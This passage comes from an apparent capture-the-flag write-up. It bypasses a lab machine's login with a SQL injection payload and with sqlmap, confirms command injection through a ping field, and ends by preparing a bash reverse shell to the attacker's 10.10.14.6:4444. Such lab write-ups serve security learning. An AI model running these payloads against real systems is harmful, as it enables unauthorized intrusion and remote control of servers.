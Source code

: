 ![crn-3](https://user-images.githubusercontent.com/87711310/213377736-5473cad6-b10b-44d1-b0f0-aecbbe203a25.png)

I tried using common credentials(admin:admin, admin:cronos, ...) but none seem to work and I slightly shifted my mind to bypass this login page using `SQL Injection`

I used [this](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/) SQL Injection cheatsheet and tried couple of payloads until I found the one through which I could bypass the login page

```
admin' #
```

Once I bypassed the authentication, I was presented with the `welcome` page

![crn-4](https://user-images.githubusercontent.com/87711310/213378586-b3c3ac85-08b3-4bbb-9b14-5d1f4d0c1040.png)

You could also use `SQLmap` to bypass the authentication mechanism.
- Intercept the request using Burp
- save it in a file with `.txt` extension (login.txt)
- Run the following sqlmap command
```
sqlmap -v 4 -r login.txt
```

![crn-5](https://user-images.githubusercontent.com/87711310/213379010-44b0022c-a354-474f-b585-a2d41f11e82c.png)

On looking at the `welcome` page, we see commands like `traceroute` and `ping` being used. This format is a general CTF format where you have to concatnate a payload to the IP address input field and either get a `reverse shell` or perform `directory traversal` or something else.

So firstly I tried to find out if its vulnerable to `command injection` using the following command.

```
8.8.8.8 & whoami
```

What the above command does is run the the preceding command (ping 8.8.8.8) in the background and execute the whoami command.

I got back the following result and its definitely vulnerable.

The web server is running with the privileges of the web daemon user www-data.

![crn-6](https://user-images.githubusercontent.com/87711310/213379559-92ac67f1-ab95-4e48-ba73-197b1e3e2fa9.png)

Now, since we can run arbitrary commands using this tool, I tried getting it to send a reverse shell back to my machine.

I turned on Burp, Intercepted the request and sent it to Repeater

Then I grabed a reverse shell from [Pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and change the IP and port to those apllicable to my machine

```
/bin/bash -i >& /dev/tcp/10.10.14.6/4444 0>&1
```
